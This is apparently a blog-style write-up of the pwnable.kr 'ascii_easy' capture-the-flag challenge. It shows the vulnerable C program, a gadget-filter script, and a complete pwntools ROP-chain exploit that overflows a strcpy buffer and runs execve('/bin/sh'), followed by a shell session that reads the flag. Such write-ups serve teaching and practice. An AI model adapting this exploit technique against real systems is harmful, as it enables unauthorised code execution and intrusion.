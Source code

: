 If my memory does not fail me, this is the first [pwnable.kr](pwnable.kr) challenge
that involves building a longer and more sophisticated ROP chain.

Let's as usual start by analyzing the binary:

```
❯ file ascii_easy
ascii_easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3a74cff7b340c23d3f90db3d934c4ca328c4a6b8, not stripped
```

We are dealing with a `32-bit` binary.
This means that if we wanted to invoke a function we would have to pass it's arguments via the stack,
as you will later see this turns a complication which would change the way we approach the problem.

The "dynamically linked" part is not of interest to us since in the source code we can observe
that another instance of `libc` is mapped at a fixed address `BASE` (`0x5555e000`):

```c
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <fcntl.h>

#define BASE ((void*)0x5555e000)

int is_ascii(int c){
    if(c>=0x20 && c<=0x7f) return 1;
    return 0;
}

void vuln(char* p){
    char buf[20];
    strcpy(buf, p);
}

void main(int argc, char* argv[]){

    if(argc!=2){
        printf("usage: ascii_easy [ascii input]\n");
        return;
    }

    size_t len_file;
    struct stat st;
    int fd = open("/home/ascii_easy/libc-2.15.so", O_RDONLY);
    if( fstat(fd,&st) < 0){
        printf("open error. tell admin!\n");
        return;
    }

    len_file = st.st_size;
    if (mmap(BASE, len_file, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE, fd, 0) != BASE){
        printf("mmap error!. tell admin\n");
        return;
    }

    int i;
    for(i=0; i<strlen(argv[1]); i++){
        if( !is_ascii(argv[1][i]) ){
            printf("you have non-ascii byte!\n");
            return;
        }
    }

    printf("triggering bug...\n");
    vuln(argv[1]);

}
```

The program expects a single string of printable ascii characters as command line argument which it later passes
to `strcpy` exposing a potential buffer overflow in the stack frame of the `vuln` function.
A couple of ideas spring to mind here:
- return to `gets`, bypassing printable ascii restriction,
overwrite some part of the mapped `libc` with custom exploit and jump to that exploit.
- return to `system`/`execve` with an argument pointing to `/bin/sh`.

My initial idea was using `gets`, however this resulted in an `SIGSEGV`.
After some time of exploring in `GDB` I concluded that either the `gets` function wasn't supposed to be directly called
from the address associated with its symbol or that it was corrupted since it dereferenced an uninitialized stack value o_0.

Anyway this made me turn to the second approach - targeting `system`/`execve` directly.
There are a couple of hurdles here, for example neither
`system`, `execve` nor `/bin/sh` (built into `libc`, showcased later)
lie on printable ascii addresses yet we have to somehow arrange them on the stack, which seems hard.
(side note, all these problems are bypassable, you could use other functions from the exec family, i.e. `execv`,
and let the `filename` argument point to any string and then create a `/bin/sh` symlink with the name of the string).
Instead I resorted to a simpler approach:

- Construct a ROP chain that directly invokes `execve` as a system call.

In this scenario the arguments would be passed to registers,
which unlike the stack are easy to manipulate via ROP gadgets.

To understand how to do the ROP we need to get a general idea of how to set up the registers
for the `execve` system call (see [syscall reference table](https://x86.syscall.sh/)):
```
eax - 0xb (execve systemcall number)
ebx - const char * filename
ecx - const char * const * argv
edx - const char * const * envp
```
For `ebx` I targeted the `/bin/sh` address that comes built into `libc`.
```
❯ ROPgadget --binary libc-2.15.so --string /bin/sh
Strings information
============================================================
0x0015d7ec : /bin/sh
```
For `ecx` and `edx` I used addresses pointing to `NULL`.

To find gadgets with which I could do the exploit I used ROPgadget:
```
❯ ROPgadget --binary libc-2.15.so > out
```

I also wrote a short python script to filter out gadgets positioned at inaccessible addresses
(that is addresses which can't be written in printable ascii):

```python
def is_valid(addr):
    addr = '{:x}'.format(addr + 0x5555e000)
    for b in (addr[i:i+2] for i in range(0, 8, 2)):
        b = int(b, 16)
        if b < 0x20 or b > 0x7f:
            return False
    return True

gadgets = ''
with open('out', 'r') as f:
    for line in f:
        if line[:2] != '0x':
            continue
        addr = int(line[:10], 16)
        if is_valid(addr):
            gadgets += line

with open('gadgets', 'w') as f:
    f.write(gadgets)
```

The process of finding the right gadgets was definitely the hardest part of this challenge,
beside the filter script I used a variety of vim substitutions to substantially reduce the search space.
I encourage you to try go through the manual ROP chain building process yourself
it is fun and it will probably make you really appreciate tools for automatic ROP chain generation.

Bellow is the list of gadgets I used:

```
// set edx point to somewhere in the mapped memory so that we can use gadgets which dereference [edx]
0x00196525 : pop edx ; add dword ptr [edx], ecx ; ret

// set ebx point to '/bin/sh' (0x556bb7ec) (split non-ascii address of '/bin/sh' into sum of ascii addresses)
0x0014544b : add al, 0x5d ; pop ebx ; ret
0x000e9a81 : pop ebx ; ret
0x00094c4c : pop esi ; ret
0x00187554 : add ebx, esi ; add dword ptr [edx], ecx ; ret

// set edx point to NULL ; zero out eax
0x00095555 : pop edx ; xor eax, eax ; pop edi ; ret

// eax = 0xb ; set ecx point to NULL
0x00074040 : xor eax, eax ; ret
0x00174a51 : pop ecx ; add al, 0xa ; ret
0x00097b7a : inc eax ; pop esi ; pop edi ; pop ebp ; ret

// syscall
0x00109177 : int 0x80
```

And finally, here is the python exploit implementing the ROP chain:

```python
from pwn import *

BASE = 0x5555e000

payload = b'A' * 32
payload += p32(BASE + 0x00196525) # pop edx ; add dword ptr [edx], ecx ; ret
payload += p32(0x55565555) # -> edx
payload += p32(BASE + 0x0014544b) # add al 0x5d ; pop ebx ; ret
payload += p32(0x22336677) # -> ebx
payload += p32(BASE + 0x00094c4c) # pop esi ; ret
payload += p32(0x33385175) # -> esi
payload += p32(BASE + 0x00187554) # add ebx, esi ; add dword ptr [edx], ecx ; ret
payload += p32(BASE + 0x00095555) # pop edx ; xor eax, eax ; pop edi ; ret
payload += p32(BASE + 0x00008846) # -> edx
payload += b'junk'
payload += p32(BASE + 0x00174a51) # pop ecx ; add al, 0xa ; ret
payload += p32(BASE + 0x00008846) # -> ecx
payload += p32(BASE + 0x00097b7a) # inc eax ; pop esi ; pop edi ; pop ebp ; ret
payload += b'junk'
payload += b'junk'
payload += b'junk'
payload += p32(BASE + 0x00109177) # int 0x80
payload += b'\x00'

proc = process(['/home/ascii_easy/ascii_easy', payload])
proc.interactive()
proc.close()
```
```
ascii_easy@pwnable:~$ python /tmp/ez/script.py
[+] Starting local process '/home/ascii_easy/ascii_easy': pid 169644
[*] Switching to interactive mode
triggering bug...
$ ls
ascii_easy  ascii_easy.c  flag    intended_solution.txt  libc-2.15.so
$ cat flag
...(flag)...
```
